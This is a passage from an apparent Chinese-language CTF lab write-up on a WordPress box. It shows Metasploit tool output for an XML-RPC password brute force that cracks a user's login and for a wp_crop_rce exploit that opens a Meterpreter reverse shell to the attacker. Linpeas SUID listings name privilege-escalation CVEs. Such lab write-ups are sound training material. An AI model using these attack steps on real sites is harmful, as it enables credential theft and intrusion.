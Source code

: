 [i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                                                                                                                                                              
Trying kwheel / westham Time: 00:06:33 <                                                                                                                                                           > (2865 / 14347257)  0.01%  ETA: ??:??:??
```

成功爆破到密码

因为kwheel不是站点管理员的密码，所以我们不能通过在后台修改php文件的方式反弹shell，不过按照之前的枚举5.0版本存在远程执行漏洞，我们尝试利用一下
```
msf6 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 10.13.21.169:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39282 bytes) to 10.10.122.108
[*] Meterpreter session 2 opened (10.13.21.169:4444 -> 10.10.122.108:53154) at 2021-09-18 04:41:28 -0400

```

#user flag不在home目录
```
$ cat /home/bjoel/user.txt
cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
```

#传linpeas枚举漏洞，查看可利用的SUID
```
══════════╣ SUID - Check easy privesc, exploits and write perms                                                                                                                                                                            
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                                 
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                      
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh (Unknown SUID binary)
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-sr-x 1 daemon daemon 51K Feb 20  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-sr-x 1 root root 8.3K May 26  2020 /usr/sbin/checker (Unknown SUID binary)
-rwsr-xr-x 1 root root 99K Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42K Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper (Unknown SUID binary)
-rwsr-sr-x 1 root root 107K Oct 30  2019 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 14K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 427K Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device (Unknown SUID binary)
-rwsr-xr-x 1 root root 43K Mar  5  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount (Unknown SUID binary)